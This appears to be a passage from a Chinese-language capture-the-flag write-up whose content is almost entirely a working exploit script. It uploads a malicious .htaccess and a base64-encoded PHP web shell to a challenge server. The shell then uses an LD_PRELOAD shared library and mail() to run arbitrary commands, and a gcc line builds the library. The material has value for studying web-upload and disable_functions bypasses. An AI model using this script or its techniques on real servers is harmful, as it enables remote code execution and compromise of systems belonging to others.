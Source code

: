 编译

```
gcc -Wall -fPIC -shared -o evil.so evil.c -ldl
```

采用 `move_uploaded_file` 函数进行多文件上传, 最后的 python 脚本如下

```python
#!/usr/bin/env python3
# -*-coding:utf-8-*-

import requests
import base64

VALID_WBMP = b"\x00\x00\x8a\x39\x8a\x39\x0a"
URL = "http://38f0cae3-850b-4ce3-b8ab-7f368b745941.node3.buuoj.cn/"
RANDOM_DIRECTORY = "4b908db0cb4511f942feb821a226ba66c216daad"  # 上传后刷新查到目录再进行修改

COOKIES = {
    "PHPSESSID": "e2s5o4f9dud4rjesdovgmgf877"}

def upload_content(name, content):

    data = {
        "image" : (name, content, 'image/png'),
        "upload" : (None, "Submit Query", None)
    }

    response = requests.post(URL, files=data, cookies=COOKIES)

HT_ACCESS = VALID_WBMP + b"""
AddType application/x-httpd-php .ricky
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.ricky"
"""
TARGET_FILE = VALID_WBMP + b"AA" + base64.b64encode(b"""
<?php

// Upload the solver and shared library
move_uploaded_file($_FILES['captcha_solver']['tmp_name'], '/tmp/captcha_solver');
move_uploaded_file($_FILES['evil']['tmp_name'], '/tmp/evil_lib');

// Set the captcha_solver as executable
putenv('LD_PRELOAD=/tmp/evil_lib');
putenv("_evilcmd=chmod +x /tmp/captcha_solver");
mail('a','a','a');

// Run the captcha solver
putenv("_evilcmd=cd / && /tmp/captcha_solver");
mail('a','a','a');

// Print output
echo file_get_contents('/tmp/_0utput.txt');
?>
""")

upload_content("..htaccess", HT_ACCESS)
upload_content("shell.ricky", TARGET_FILE)
upload_content("trigger.ricky", VALID_WBMP)

files = {"evil": open("./evil.so", "rb"), "captcha_solver": open("./exploit.pl", "rb")}
response = requests.post(URL + "/images/" + RANDOM_DIRECTORY + "/trigger.ricky", files=files)
print(response.text)
```
